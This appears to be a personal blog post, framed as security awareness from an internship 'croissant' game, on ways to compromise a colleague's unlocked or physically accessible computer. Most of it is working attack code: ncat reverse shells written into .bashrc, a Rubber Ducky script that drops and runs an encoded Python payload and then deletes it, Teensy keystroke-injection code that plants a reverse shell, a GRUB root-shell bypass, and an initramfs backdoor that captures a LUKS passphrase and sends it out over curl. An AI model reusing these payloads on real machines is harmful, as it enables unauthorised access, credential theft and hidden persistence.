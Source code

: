 ```yaml
---
layout: post
title: French Croissant - or why you need to lock your computer
---
```


Last year the first day of my internship I was given a computer and asked to install and secure it for two days. After that delay anyone can try to attack and compromise my machine, and if so I was welcome to buy some "French Croissants" to the team while the attacker explain his method to get access into your computer the next morning.
There are some techniques you need to be aware of when you're securing your machine, the list below is not exhaustive.

<!--more-->

## Open session
When your colleague leave their computer without locking their session, it's time to go on their laptop and interact with it. In this scenario you can :
  - send an email to the team if he was logged into his mail account
  {% highlight plain%}
  To: team@company.com
  Subject: Croissant for all tomorrow
  {% endhighlight %}

  - if he was using Linux, you may want to keep a simple backdoor in order to do a privilege escalation and become a root user, the easiest way to achieve is to backdoor the .bashrc with a reverse-shell
  {% highlight bash%}
  ncat 192.168.1.2 4444 -e /bin/bash 2> /dev/null &
  {% endhighlight %}

## Written password
Maybe the most unskilled scenario, sometimes the user will write some interesting informations onto a paper sheet or a post-it, and leave it on their desktop. You can just grab the credential.    
![alt text]({{ site.baseurl }}/images/security-password-postit.jpg "Logo Title Text 1")

## Outdated components
The computer has to be updated, if your colleague doesn't do the regular patches you might be able to take advantages of this. Commonly you can target the Operating system e.g:Windows XP with MS08-067, or the Browser (Chrome/Firefox etc)

## Guest account
Sometimes the guest account is enable and allows you to get further access into the machine.
[LightDM (Ubuntu 16.04/16.10) - Guest Account Local Privilege Escalation](https://www.exploit-db.com/exploits/41923/)

## Debug components
Most of the times you can acces the debug application on the port 80 on the internal network if there is no filtering. Depending of the application you look for :
  - Common vulnerabilites (OWASP top 10)
  - Debug interface (Python Flask)

## USB Live ISO
When there is no bios password, it's easy to compromise the computer by booting with a Live USB / Live CD and adding the backdoor.

## Grub - Root access
Even if there is a bios password you still need to secure your Grub (boot-manager), otherwise anyone can edit it in order to start a root shell.

{% highlight bash%}
Press [SHIFT KEY] to get into grub2
Press [E] to edit the command line
Append init=/bin/sh
{% endhighlight %}

## USB : Rubber Ducky or Teensy
If you are willing to spend around 40$, you can buy a Rubber Ducky. This is a fake USB which will act as a keyboard and send any key to the plugged computer. The payload can be created within a notepad or online at https://ducktoolkit.com/.

The full documentation is available at [https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)

The following script was generated by DuckToolkit and serve a directory via HTTP
{% highlight bash%}
DEFAULT_DELAY 100
DELAY 3000
CTRL-ALT t
DELAY 200
STRING  printf '\e[3;1;1t'
ENTER
STRING  echo H4sIACBLCFoC/13OzwqDMAwG8HufIiDM9jAfYLD7joLei2hmC/1HGgXffh2dHpbTx0f4JdanSAwxC1tTPq7oN8c2UZwxZxtWIRZ8Qzq0YU5SPQSUibmbzWJJtq06i0Iwetmmg00McPcwFNHhaxz7AWlHAriVddEUUBskrDRtQU/OnfTf+a6vUfJEK/Lz94jqcilY1uvN16jipX0AB59ZiuMAAAA= | base64 --decode | gzip -d > environ-34314.py
ENTER
STRING  nohup python environ-34314.py > /dev/null 2>&1 &
ENTER
STRING  rm -rf environ-34314.py
ENTER
STRING exit
ENTER
{% endhighlight %}


Alternatively you can buy a Teensy board for 15$, it requires a little bit of configuration but it works as well
First, you need to install the arduino IDE, the Teensyduino and the rules for the Teensy board.
{% highlight bash%}
wget https://raw.githubusercontent.com/apmorton/teensy-template/master/tools/49-teensy.rules
mv 49-teensy.rules /etc/udev/rules.d/49-teensy.rules
wget https://www.pjrc.com/teensy/td_140/TeensyduinoInstall.linux64 && chmod +x ./TeensyduinoInstall.linux64 &&./TeensyduinoInstall.linux64
wget https://www.arduino.cc/download_handler.php
tar xvf arduino-1.8.5-linux64.tar.xz
{% endhighlight %}

The following code press the keys [ALT]+[F2], then write "xterm", followed by an echo into the user's .bashrc
{% highlight c%}
void setup() {

  delay(100);
  Keyboard.set_modifier(MODIFIERKEY_ALT);
  Keyboard.set_key1(KEY_F2);
  Keyboard.send_now();
  delay(100);

  Keyboard.set_modifier(0);
  Keyboard.set_key1(0);
  Keyboard.send_now();
  delay(100);

  Keyboard.println("xterm");
  delay(100);

  Keyboard.set_key1(KEY_ENTER);
  Keyboard.send_now();
  delay(100);

  // Reverse-shell stored in the bashrc
  Keyboard.println(" echo ' ncat 192.168.1.XX 4242 -e /bin/bash 2>/dev/null & clear' >> $HOME/.bashrc ");
  delay(100);

  // Now we clean our tracks
  Keyboard.println("exit");
  delay(100);
}

void loop() {
  delay(5000);
}
{% endhighlight %}
NOTE: When programming the board press the "RESET" button to avoid the launch of the payload on your computer

## Initramfs Backdoor - Encrypted Hard Drive
When you're booting there is one partition that is not encrypted in order to start. It will ask for your password and then decrypt and mount the other partition. If you have and access to the hard drive it is possible to replace the Initramfs.img in order to get the password to decrypt the full hdd, you can also wait for the decryption and then inject what you want inside a file as root :)

Mounting boot partition (not encrypted)
{% highlight bash%}
fdisk -l /dev/sda
mkdir /mnt/sda1
mount /dev/sda1 /mnt/sda1
{% endhighlight %}

Extracting initramfs-linux
{% highlight bash%}
cp /dev/sda1/initramfs-linux.img /tmp/initramfs-linux.img.gz
gunzip initramfs-linux.img.gz
cpio -i < initramfs-linux.img
{% endhighlight %}


Adding the backdoor and packaging back to a .img
{% highlight bash%}
vim /hooks/encrypt

backdoor line 78
echo -n "Enter passphrase for /dev/sda3: "
read -s mypass
echo -n $mypass | cryptsetup open --key-file - --type luks /dev/sda3 mymap
mkdir myfolder
mount /dev/mapper/mymap myfolder
echo "curl example.com/LUKS/$mypass 2> /dev/null" >> myfolder/home/user/.bashrc
echo "curl example.com/LUKS/$mypass 2> /dev/null" >> myfolder/home/root/.bashrc
umount myfolder
rmdir myfolder
cryptsetup close mymap


find . | cpio -o -H newc | gzip > ../test.img  
{% endhighlight %}

